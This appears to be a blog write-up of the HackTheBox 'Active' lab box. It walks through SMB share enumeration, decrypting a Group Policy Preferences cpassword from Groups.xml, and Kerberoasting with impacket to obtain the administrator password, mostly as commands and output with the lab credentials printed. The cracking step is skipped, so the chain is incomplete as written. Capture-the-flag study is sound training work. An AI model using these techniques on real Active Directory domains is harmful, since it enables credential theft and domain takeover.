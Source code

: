 ```yaml
---
title: HackTheBox-Active
date: 2024-12-23 09:38:00 +/-TTTT
categories: [boxes, red-teaming]
tags: [gpp-decrypt, kerberoast]     # TAG names should always be lowercase
image : /assets/images/0_4We2obJR4nefl9lA.png
---
```


## SMB enum

    ➜  active nxc smb 10.10.10.100
    SMB         10.10.10.100    445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)

    ➜  active nxc smb 10.10.10.100 -u '' -p '' --shares
    SMB         10.10.10.100    445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
    SMB         10.10.10.100    445    DC               [+] active.htb\: 
    SMB         10.10.10.100    445    DC               [*] Enumerated shares
    SMB         10.10.10.100    445    DC               Share           Permissions     Remark
    SMB         10.10.10.100    445    DC               -----           -----------     ------
    SMB         10.10.10.100    445    DC               ADMIN$                          Remote Admin
    SMB         10.10.10.100    445    DC               C$                              Default share
    SMB         10.10.10.100    445    DC               IPC$                            Remote IPC
    SMB         10.10.10.100    445    DC               NETLOGON                        Logon server share
    SMB         10.10.10.100    445    DC               Replication     READ            
    SMB         10.10.10.100    445    DC               SYSVOL                          Logon server share                                                                                      
    SMB         10.10.10.100    445    DC               Users  

### xml file
    ➜  active cat Groups.xml 
    <?xml version="1.0" encoding="utf-8"?>
    <Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
    </Groups>

## gpp-decrypt 

    ➜  active gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

    name="active.htb\SVC_TGS

    SVC_TGS : GPPstillStandingStrong2k18

## shares again

    ➜  active nxc smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'
    SMB         10.10.10.100    445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
    SMB         10.10.10.100    445    DC               [+] active.htb\SVC_TGS:GPPstillStandingStrong2k18
    ➜  active nxc smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' --shares
    SMB         10.10.10.100    445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
    SMB         10.10.10.100    445    DC               [+] active.htb\SVC_TGS:GPPstillStandingStrong2k18
    SMB         10.10.10.100    445    DC               [*] Enumerated shares
    SMB         10.10.10.100    445    DC               Share           Permissions     Remark
    SMB         10.10.10.100    445    DC               -----           -----------     ------
    SMB         10.10.10.100    445    DC               ADMIN$                          Remote Admin
    SMB         10.10.10.100    445    DC               C$                              Default share
    SMB         10.10.10.100    445    DC               IPC$                            Remote IPC
    SMB         10.10.10.100    445    DC               NETLOGON        READ            Logon server share                                                                                      
    SMB         10.10.10.100    445    DC               Replication     READ            
    SMB         10.10.10.100    445    DC               SYSVOL          READ            Logon server share                                                                                      
    SMB         10.10.10.100    445    DC               Users           READ   

>if u have username:password GetUsersSPNs.

>if u have users list then go GetNPUsers

## Kerberoas

    ➜  active impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS


    Ticketmaster1968


and we got admin pass

    !!!IMPORTANT psexec,wmiexec or any other just for admins.

Video walkthrough
[WATCH!](https://youtu.be/njYbuCAJGno?si=291iRorni-030Wan)

